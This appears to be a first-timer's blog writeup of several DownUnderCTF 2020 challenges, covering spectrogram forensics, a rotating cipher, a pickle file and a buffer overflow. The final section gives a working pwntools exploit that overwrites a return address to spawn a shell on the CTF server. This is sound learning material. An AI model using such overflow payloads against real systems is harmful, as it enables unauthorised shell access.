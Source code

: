 ```yaml
---
title: DownUnderCTF2020 writeups
date: 2020-09-09 00:00:00 Z
layout: post
---
```

This is my first CTF event. I did not do well and I only solved a few. The following is my writeup for the ones I did solve. 
### forensics - On the spectrum:
A .wav music file is given. As the name suggested, it is about the spectrum of the music. I had no idea what does it means and did some search online. I found this youtube video was helpful: https://www.youtube.com/watch?v=LrwtGliuvIk
I used a tool called Sonic Visualiser, using the following spectrogram settings:

![]({{ site.url }}/assets/DUCTF_spec1.png)

The flag is shown below:

![]({{ site.url }}/assets/DUCTF_spec2.png)

### crypto - rot-i:
This one gives us an encrypted message:

```
Ypw'zj zwufpp hwu txadjkcq dtbtyu kqkwxrbvu! Mbz cjzg kv IAJBO{ndldie_al_aqk_jjrnsxee}. Xzi utj gnn olkd qgq ftk ykaqe uei mbz ocrt qi ynlu, etrm mff'n wij bf wlny mjcj :).
```
The question is named `rot-i` so chances are this is a substitution cipher. However, it is not a simple one. We know that `IAJBO` stands for `DUCTF`. After calculating the alphabet places differences, we find a pattern, `I` is 5 spaces after `D`, `U` is 6 spaces after `A` (wrapped around) etc.. Then a simple python script could do:

```python
letters = 'abcdefghijklmnopqrstuvwxyz'
encrypted = 'IAJBO{ndldie_al_aqk_jjrnsxee}'
i = 5
letters_list = [x for x in letters]
for j in range(len(encrypted)):
	en = encrypted[j]
	if en.lower() in letters_list:
		index = letters_list.index(en.lower()) - i - j
		print(letters_list[index % 26],end="")
	else:
		print(en,end="")
```
### web - Leggos
It’s a page with an image of a bottle of Leggos sauce. Although the web-page disabled right-click to prevent we see the source code. Burp Suite can be used to see the source code.

![]({{ site.url }}/assets/DUCTF_leggos1.png)

### misc - In a pickle
A file named data is given. From the description, the chances of this is in a pickle format is high. I used the following code to extract the information:

```python
import pandas as pd

p_dict = pd.read_pickle('data')
print(p_dict)
```
Run it and the following is returned:

![]({{ site.url }}/assets/DUCTF_pickle.png)

It is indeed in pickle format and it contains a flag. Now the question is what’s the content? It all contains numbers and these numbers are in the range of unicode for English characters. 

```python
result = ''
for key,value in p_dict.items():
	if key < 4 or key == 23: 
		result += value
		continue
	elif key == 24:
		continue
	else:
		result += chr(value)
print(result)
```
This code gives me the flag. 
### pwn - Shell this!
A simple buffer overflow problem. We overflow the buffer and overwrite the return address using the win function address.

```python
from pwn import *
context(arch='amd64', os='linux')

PROGNAME = "./shellthis"
REMOTEIP = "chal.duc.tf"
REMOTEPORT = 30002

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

win_addr = elf.symbols["get_shell"]
payload = b''
payload += b'A' * 56
payload += p64(win_addr)
p.sendline(payload)
p.interactive()
```
